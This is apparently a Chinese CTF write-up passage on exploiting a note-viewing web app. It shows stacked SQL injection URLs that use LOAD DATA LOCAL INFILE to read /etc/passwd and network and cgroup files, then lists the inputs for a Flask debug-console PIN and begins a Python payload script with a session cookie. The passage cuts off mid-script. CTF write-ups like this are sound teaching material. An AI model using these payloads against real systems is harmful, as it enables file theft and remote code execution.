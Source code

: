 利用堆叠注入，有延迟，存在堆叠注入

```
http://124.70.185.87:5002/view?note_id=0' union select 1,2,3,4,5;select sleep(2);--+
```

开始读文件

```php
http://124.70.185.87:5002/view?note_id=0' union select 1,2,3,4,5;create table z3eyond(t text); load data local infile '/etc/passwd' INTO TABLE z3eyond LINES TERMINATED BY '\n'--+
```

```php
http://124.70.185.87:5002/view?note_id=0' union select 1,2,3,(select group_concat(t) from z3eyond),5;--+
```

![image-20220418200417069](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202204182004207.png)



成功读取文件。



然后看到报错界面，属于flask的，扫了一波目录，有个`console`

需要`flask的pin码`

网上找到资料https://blog.csdn.net/weixin_46081055/article/details/120167680

pin码需要

>1.flask所登录的用户名  ---在/etc/passwd  为ctf
>
>2.modname-一般固定为flask.app
>
>3.getattr(app, “name”, app.class.name) - 固定，一般为Flask
>
>4.在flask库下app.py的绝对路径，通过报错泄漏 ---/usr/local/lib/python3.8/site-packages/flask/app.py
>
>5.当前网络的mac地址的十进制数
>
>6.docker机器id

编写代码

```python
import requests
import re
import hashlib
from itertools import chain

url = "http://124.70.185.87:5002/view?note_id="

payload1 = "0' union select 1,2,3,4,5; create table y4(t text); load data local infile '/sys/class/net/eth0/address' INTO TABLE y4 LINES TERMINATED BY '\\n'--+"
payload2 = "0' union select 1,2,3,4,5; create table yy4(t text); load data local infile '/proc/self/cgroup' INTO TABLE yy4 LINES TERMINATED BY '\\n'--+"
payload3 = "0' union select 1,2,3,(select group_concat(t) from y4),1; --+"
payload4 = "0' union select 1,2,3,(select group_concat(t) from yy4),1; --+"

headers = {
    "cookie":"session=.eJwVi0EKwyAQAL8ie8mlEE3ArP1MWXdXCE21REsJpX-POcxlhvkB1z09WnlqhjvMkwvKHBktRmfD5J1NKj5EXBDZeppVAi5wg0_VPdNL-7UVEiPUyKw5rZuaYdTG45tq_crQZSumUezhOKRewP8E760nRw.YlqN-g.KZrp8S7tsXPS60cPH88awzRI35Q"
}
r = requests.get(url+payload1,headers=headers)
r = requests.get(url+payload2,headers=headers)


```